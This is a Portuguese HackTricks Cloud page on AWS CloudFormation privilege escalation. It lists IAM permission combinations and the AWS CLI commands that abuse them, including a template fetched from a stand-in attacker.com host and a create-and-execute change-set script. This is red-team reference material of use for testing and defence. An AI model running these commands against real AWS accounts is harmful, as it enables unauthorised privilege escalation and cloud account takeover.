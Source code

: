 # AWS - Cloudformation Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## cloudformation

Para mais informações sobre cloudformation, consulte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Um atacante com essas permissões **pode escalar privilégios** criando um **stack CloudFormation** com um template personalizado, hospedado em seu servidor, para **executar ações sob as permissões de um papel especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na página a seguir, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc para a função de serviço cloudformation especificada.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Neste caso, você pode **abusar de uma stack cloudformation existente** para atualizá-la e escalar privilégios como no cenário anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo a permissão `UpdateStack`** em uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tem essa permissão, mas **não tem `iam:PassRole`**, ainda pode **atualizar as pilhas** usadas e abusar dos **Papéis IAM que já estão anexados**. Verifique a seção anterior para exemplo de exploração (apenas não indique nenhum papel na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo a permissão `UpdateStack`** em uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para o papel de serviço do cloudformation já anexado.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um atacante com permissões para **passar um papel e criar & executar um ChangeSet** pode **criar/atualizar uma nova pilha do cloudformation abusando dos papéis de serviço do cloudformation** assim como com o CreateStack ou UpdateStack.

O seguinte exploit é uma **variação do**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) usando as **permissões ChangeSet** para criar uma pilha.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
A permissão `cloudformation:SetStackPolicy` pode ser usada para **conceder a si mesmo permissões de `ChangeSet`** em uma pilha e realizar o ataque.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Este método é semelhante ao anterior, sem passar **funções IAM**, então você pode simplesmente **abusar das que já estão anexadas**, apenas modifique o parâmetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc para a função de serviço do cloudformation já anexada.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um atacante poderia abusar dessas permissões para criar/atualizar StackSets para abusar de funções arbitrárias do cloudformation.

**Impacto Potencial:** Privesc para funções de serviço do cloudformation.

### `cloudformation:UpdateStackSet`

Um atacante poderia abusar dessa permissão sem a permissão passRole para atualizar StackSets para abusar das funções do cloudformation anexadas.

**Impacto Potencial:** Privesc para as funções do cloudformation anexadas.

## Referências

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
